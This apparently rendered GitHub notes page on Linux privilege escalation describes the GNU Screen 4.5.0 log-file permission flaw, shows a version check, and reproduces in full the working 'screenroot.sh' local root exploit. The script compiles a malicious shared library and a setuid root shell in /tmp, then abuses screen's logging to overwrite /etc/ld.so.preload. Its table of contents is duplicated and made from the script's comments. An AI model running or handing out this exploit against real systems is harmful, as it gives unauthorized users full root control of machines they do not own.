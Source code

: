 ## Table of Contents

  - [Table of Contents](#Table\of\Contents)
          - [Screen Version Identification](#Screen\Version\Identification)
- [screenroot.sh](#screenroot.sh)
- [setuid screen v4.5.0 local root exploit](#setuid\screen\v4.5.0\local\root\exploit)
- [abuses ld.so.preload overwriting to get root.](#abuses\ld.so.preload\overwriting\to\get\root.)
- [bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html](#bug:\https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html)
- [HACK THE PLANET](#hack\the\planet)
- [~ infodox (25/1/2017)](#~\infodox\(25/1/2017))

## Table of Contents

          - [Screen Version Identification](#Screen\Version\Identification)
- [screenroot.sh](#screenroot.sh)
- [setuid screen v4.5.0 local root exploit](#setuid\screen\v4.5.0\local\root\exploit)
- [abuses ld.so.preload overwriting to get root.](#abuses\ld.so.preload\overwriting\to\get\root.)
- [bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html](#bug:\https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html)
- [HACK THE PLANET](#hack\the\planet)
- [~ infodox (25/1/2017)](#~\infodox\(25/1/2017))

Many services often found have flaws that can be leveraged to escalated privileges. An example is the popular terminal multiplexer: [Screen](https://linux.die.net/man/1/screen)
- Version 4.5.0 suffers from a privilege escalation vulnerability due to a lack of a permissions check when opening a log file.
###### Screen Version Identification
```bash
screen -v
---
Screen version 4.05.00 (GNU) 
```

- Using the below Script, this can be used to exploit `Screen` to gain root privileges.

```bash
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/stat.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c -Wno-implicit-function-declaration
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell
```